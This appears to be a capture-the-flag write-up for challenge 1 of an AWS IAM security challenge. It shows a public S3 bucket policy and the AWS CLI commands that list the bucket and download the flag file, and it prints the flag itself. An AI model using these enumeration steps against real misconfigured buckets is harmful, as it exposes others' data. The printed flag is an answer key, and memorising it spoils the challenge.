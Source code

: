 # Challenge 1

**Challenge 1:** https://bigiamchallenge.com/challenge/1

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/57ff9010-8846-455b-a1e0-21859246e2b4)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/13756273-e84c-4508-8b06-3caa3689e706)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/f68e5601-6414-4fac-a3c1-7e31a46a1bc8)

```sh
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                }
            }
        }
    ]
}
```


```sh
> aws sts get-caller-identity
{
    "UserId": "AROAZSFITKRSYE6ELQP2Q:iam_shell",
    "Account": "657483584613",
    "Arn": "arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell"
}
> aws s3 ls thebigiamchallenge-storage-9979f4b
                           PRE files/
> aws s3 ls thebigiamchallenge-storage-9979f4b/files/
2023-06-05 19:13:53         37 flag1.txt
2023-06-08 19:18:24      81889 logo.png
> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt /tmp/flag1.txt
Completed 37 Bytes/37 Bytes (556 Bytes/s) with 1 file(s) remainingdownload: s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt to ../../tmp/flag1.txt
> cat /tmp/flag1.txt
{wiz:exposed-storage-risky-as-usual}
```
